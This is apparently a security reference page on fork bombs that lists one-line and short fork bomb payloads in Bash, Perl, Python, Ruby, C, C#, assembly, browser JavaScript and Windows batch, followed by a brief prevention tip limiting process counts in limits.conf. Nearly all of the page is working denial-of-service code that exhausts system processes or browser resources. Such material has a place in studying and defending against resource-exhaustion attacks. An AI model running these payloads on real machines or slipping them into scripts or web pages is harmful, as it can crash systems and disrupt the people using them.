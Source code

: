 # Fork Bomb 

## Attack

### Bash

```no-highlight
:(){ :|:& };:
```

### Bash Script

```no-highlight
#!/bin/bash
$0|$0& #"$0" returns the name of the shell script itself
```

### Perl

```no-highlight
perl -e "fork while fork" &
```

### Python

```no-highlight
import os
while 1:
    os.fork()
```

### Ruby

```no-highlight
loop { fork { __FILE__ } }
```

### C

```no-highlight
#include <unistd.h>

int main(void)
{
    while(1) fork();
}
```

### C#

```no-highlight
static void Main()
{
    while (true) Process.Start(Assembly.GetExecutingAssembly().Location);
}
```

### Assembly

```no-highlight
section .text
    global_start
    
_start:
    mov eax,2 ;System call for forking
    int 0x80  ;Call kernel
    jmp _start
```

### Javascript

```no-highlight
<script>
setInterval(function() {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}, 10);
</script>
```

### windows batch file

```no-highlight
:s
start "" %0
goto s
```

Same as above but shorter

```no-highlight
%0|%0
```

## Prevention

### /etc/security/limits.conf
```no-highlight
...
peyman hard nproc 300
...
```
Restart PAM.